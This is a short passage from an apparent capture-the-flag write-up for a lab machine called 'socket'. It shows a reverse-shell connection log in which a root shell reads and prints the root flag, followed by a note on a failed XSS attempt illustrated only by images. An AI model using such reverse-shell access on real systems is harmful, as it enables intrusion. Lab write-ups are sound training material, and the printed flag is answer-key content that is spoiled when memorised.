 ```bash
connect to [10.10.14.23] from (UNKNOWN) [10.10.11.206] 41250
root@socket:/tmp# cd ~
cd ~
root@socket:~# cat root.txt
cat root.txt
2bfb1a18486deee59669e6898f863a3a
```


# Additional
---

## Failed Attempts


### Report Page XSS

Tried XSS on the report page

![](/assets/obsidian/586fa694e37daed2a2ddd2bb931dfc3f.png)

![](/assets/obsidian/f2143082fe855fd0ded8df4b5fade469.png)

